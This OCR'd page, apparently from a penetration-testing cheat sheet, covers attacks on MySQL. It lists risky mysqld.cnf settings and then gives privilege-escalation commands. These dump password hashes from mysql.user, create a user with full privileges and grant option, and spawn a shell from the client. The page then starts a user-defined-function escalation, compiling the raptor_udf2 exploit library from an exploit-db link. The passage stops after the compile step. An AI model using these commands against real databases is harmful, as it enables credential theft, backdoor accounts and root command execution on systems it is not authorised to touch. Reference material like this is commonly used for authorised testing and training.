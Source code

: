 **Dangerous Settings of mysqld.cnf**

|   |   |
|---|---|
|**Settings**|**Description**|
|`user`|Sets which user the MySQL service will run as.|
|`password`|Sets the password for the MySQL user.|
|`admin_address`|The IP address on which to listen for TCP/IP connections on the administrative network interface.|
|`debug`|This variable indicates the current debugging settings (sensitive info inside logs)|
|`sql_warnings`|This variable controls whether single-row INSERT statements produce an information string if warnings occur. (sensitive info inside logs)|
|`secure_file_priv`|This variable is used to limit the effect of data import and export operations.|

**Privilege escalation**

```bash
# Get current user (an all users) privileges and hashes
use mysql;
select user();
select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user;

# Get users, permissions & creds
SELECT * FROM mysql.user;
mysql -u root --password=<PASSWORD> -e "SELECT * FROM mysql.user;"

# Create user and give privileges
create user test identified by 'test';
grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;

# Get a shell (with your permissions, usefull for sudo/suid privesc)
\! sh
```

**Privilege Escalation via library**

If the **mysql server is running as root** (or a different more privileged user) you can make it execute commands. For that, you need to use **user defined functions**. And to create a user defined you will need a **library** for the OS that is running mysql.

The malicious library to use can be found inside sqlmap and inside metasploit by doing **`locate "*lib_mysqludf_sys*"`**. The **`.so`** files are **linux** libraries and the **`.dll`** are the **Windows** ones, choose the one you need.

If you **don't have** those libraries, you can either **look for them**, or download this [**linux C code**](https://www.exploit-db.com/exploits/1518) and **compile it inside the linux vulnerable machine**:

```bash
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
